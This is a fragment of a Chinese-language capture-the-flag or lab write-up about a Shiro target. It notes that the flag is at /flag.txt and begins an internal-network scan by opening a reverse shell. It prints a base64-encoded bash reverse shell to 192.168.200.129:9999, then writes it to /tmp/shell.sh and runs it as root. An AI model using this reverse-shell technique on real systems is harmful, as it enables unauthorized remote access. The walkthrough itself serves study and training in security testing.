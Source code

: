 ## flag - Shiro

flag 文件位于 `/flag.txt`

![img](img/image_20240701-110116.png)

## Shiro 内网扫描

首先先反弹 shell

```shell title="Shiro"
# /bin/bash -i >& /dev/tcp/192.168.200.129/9999 0>&1
$ echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMjAwLjEyOS85OTk5IDA+JjE= | base64 -d > /tmp/shell.sh
$ chmod +x /tmp/shell.sh
$ ls -lh /tmp/shell.sh
-rwxr-xr-x 1 root root 50 Jul 25 03:04 /tmp/shell.sh
$ /bin/bash /tmp/shell.sh
```
